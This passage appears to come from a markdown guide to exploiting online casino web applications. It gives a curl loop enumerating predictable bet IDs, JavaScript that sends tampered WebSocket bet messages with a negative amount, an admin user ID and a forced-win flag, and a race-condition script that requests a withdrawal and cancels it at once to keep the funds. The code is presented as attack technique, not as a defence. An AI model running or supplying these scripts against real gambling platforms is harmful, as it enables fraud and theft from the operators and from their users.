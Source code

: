 3. **Predictable Resource IDs**
```
/api/transactions/1
/api/transactions/2
...
/api/transactions/999999

# Script to enumerate
for i in {1..10000}; do
  curl "https://casino.com/api/bet/$i"
done
```

---

## 🛠️ Advanced Exploitation Techniques

### 1. WebSocket Message Manipulation

```javascript
// Intercept WebSocket
const ws = new WebSocket('wss://casino.com/game');

// Original message
ws.send(JSON.stringify({
  action: 'bet',
  amount: 10,
  gameId: 123
}));

// Modified message
ws.send(JSON.stringify({
  action: 'bet',
  amount: -10,      // Negative bet
  gameId: 123,
  userId: 1,        // Admin user
  forceWin: true    // Extra parameter
}));
```

---

### 2. Time-Based Attacks

```javascript
// Exploit timing windows
async function timingAttack() {
  // Start withdrawal
  fetch('/api/withdraw', {
    method: 'POST',
    body: JSON.stringify({amount: 1000})
  });
  
  // Immediately cancel before processing
  fetch('/api/withdraw/cancel', {
    method: 'POST',
    body: JSON.stringify({amount: 1000})
  });
  
  // Balance returns but withdrawal completes
}
```

---